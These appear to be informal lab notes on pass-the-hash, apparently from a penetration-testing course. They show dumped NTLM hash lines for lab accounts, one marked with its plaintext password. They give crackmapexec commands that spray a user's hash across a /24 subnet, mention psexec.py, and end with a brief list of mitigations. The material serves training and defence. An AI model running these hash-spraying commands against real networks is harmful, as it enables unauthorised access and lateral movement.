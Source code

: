 **Pass the Hash**

<br/>
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
Jean Grey:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::   (NOTE: this should be Password3)<br/>
Logan:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::<br/>
<br/>
<br/>
<br/>
crackmapexec smb &lt;ip&gt; -u &quot;&lt;user name&gt;&quot; -H &lt;hash&gt; --local-auth<br/>
<br/>
crackmapexec smb 192.168.247.0/24 -u &quot;Logan&quot; -H 64f12cddaa88057e06a81b54e73b949b --local-auth<br/>
<br/>
<img height="253" src="image.png" width="900"/><br/>
<br/>
<br/>
<br/>
Note can use hashes with psexec.py<br/>
<br/>

<br/>
MItegations to Pass password/hash<br/>
<br/>
<br/>
limit account reuse<br/>
<br/>
avoid local admin apasswords<br/>
duisable guest and admin account<br/>
<br/>
least privelaged<br/>
<br/>
Stong passwords &gt;14 chars<br/>
<br/>
<br/>
Privelge Access Management (PAM)<br/>
Check out senstive accounts when needed<br/>
